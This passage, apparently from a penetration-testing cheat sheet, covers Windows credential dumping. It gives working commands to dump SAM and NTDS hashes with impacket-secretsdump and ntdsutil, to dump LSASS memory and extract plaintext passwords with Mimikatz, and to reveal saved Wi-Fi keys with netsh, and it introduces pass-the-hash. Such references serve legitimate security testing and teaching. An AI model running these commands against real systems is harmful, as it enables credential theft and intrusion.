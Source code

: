 ```

Alternatively, we can use `impacket-secretsdump`:

```
impacket-secretsdump -sam /root/SAM -security /root/SECURITY -system /root/SYSTEM LOCAL
```

### Dump NTDS Database

#### ndtsutil

The ntdsutil utility can be used to backup the database:

```
ntdsutil "ac in ntds" i "cr fu c:\temp" q q
```

#### impacket-secretsdump

Alternatively, you can use `impacket-secretsdump`, however, for this, you need the NTDS:

```
impacket-secretsdump -ntds ntds -system SYSTEM LOCAL
impacket-secretsdump -ntds ntds.dit -system SYSTEM -security SECURITY LOCAL
```

### Dump LSASS Login Credentials

The Local Security Authority Subsystem Service (LSASS) is a process responsible for enforcing security on a Windows system. By creating a memory dump of the process, we can extract plaintext credentials.

With local administrator rights on a host, open task manager, find lsass.exe, right-click and select “Create Dump File”

![Task Manager -> Details -> lsass.exe](<../../.gitbook/assets/image (24).png>)

Create a dump file:

![Create dump file](<../../.gitbook/assets/image (23).png>)

Then you will receive this message:

![](<../../.gitbook/assets/image (26).png>)

Mimikatz can then dump the plaintext login credentials:

```
sekurlsa::Minidump lsass.DMP
sekurlsa::logonPasswords
```

### Dump Wi-Fi Passwords

We can dump wi-fi passwords with netsh:

```
netsh wlan show profiles
netsh wlan show profile name="ConnectionName" key=clear
```

### **Passing the Hash**

Windows accepts hashes to authenticate to a number of services. We can use pth tools to perform a pass-the-hash in order to log in with the hash.
```